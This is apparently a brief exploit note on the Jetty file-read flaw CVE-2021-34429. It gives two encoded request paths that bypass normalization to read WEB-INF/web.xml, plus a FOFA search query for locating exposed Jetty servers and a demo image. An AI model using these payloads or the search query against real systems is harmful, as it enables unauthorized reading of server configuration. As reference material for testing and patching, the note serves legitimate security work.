 # Jetty File Read (CVE-2021-34429)

/%u002e/WEB-INF/web.xml and /.%00/WEB-INF/web.xml After normalization and decoding, it will become /./WEB-INF/web.xml.

FOFA **query rule**: [app="Jetty"](https://fofa.so/result?qbase64=YXBwPSJKZXR0eSI%3D)

# Demo

![img](Jetty_File_Read_CVE_2021_34429.gif)

